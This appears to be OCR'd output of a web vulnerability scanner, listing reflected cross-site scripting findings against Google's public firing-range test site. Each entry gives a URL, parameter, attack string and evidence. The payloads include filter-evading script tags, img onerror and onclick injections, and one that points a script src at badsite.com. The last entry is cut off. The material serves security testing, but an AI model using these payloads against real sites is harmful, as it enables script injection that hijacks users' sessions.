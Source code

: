 * URL: https://public-firing-range.appspot.com/reflected/escapedparameter/js_eventhandler_unquoted/UNQUOTED_ATTRIBUTE%3Fq=%253Balert%25281%2529
  * Method: `GET`
  * Parameter: `q`
  * Attack: `;alert(1)`
  * Evidence: `;alert(1)`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/filteredcharsets/attribute_unquoted/DoubleQuoteSinglequote%3Fq=%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `><scrIpt>alert(1);</scRipt>`
  * Evidence: `><scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/filteredcharsets/body/SpaceDoubleQuoteSlashEquals%3Fq=%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `<scrIpt>alert(1);</scRipt>`
  * Evidence: `<scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/filteredstrings/body/caseInsensitive/script%3Fq=%253Cimg+src%253Dx+onerror%253Dprompt%2528%2529%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `<img src=x onerror=prompt()>`
  * Evidence: `<img src=x onerror=prompt()>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/filteredstrings/body/caseSensitive/SCRIPT%3Fq=%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `<scrIpt>alert(1);</scRipt>`
  * Evidence: `<scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/attribute_name%3Fq=accesskey%253D%2527x%2527+onclick%253D%2527alert%25281%2529%2527+b
  * Method: `GET`
  * Parameter: `q`
  * Attack: `accesskey='x' onclick='alert(1)' b`
  * Evidence: `accesskey='x' onclick='alert(1)' b`
  * Other Info: `The accesskey attribute specifies a shortcut key to activate/focus an element. This attribute can trigger payloads for non-conventional or custom tags.`
* URL: https://public-firing-range.appspot.com/reflected/parameter/attribute_quoted%3Fq=%2522%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `"><scrIpt>alert(1);</scRipt>`
  * Evidence: `"><scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/attribute_script%3Fq=%2522+src%253Dhttp%253A%252F%252Fbadsite.com
  * Method: `GET`
  * Parameter: `q`
  * Attack: `" src=http://badsite.com`
  * Evidence: `" src=http://badsite.com`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/attribute_singlequoted%3Fq=%2527%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `'><scrIpt>alert(1);</scRipt>`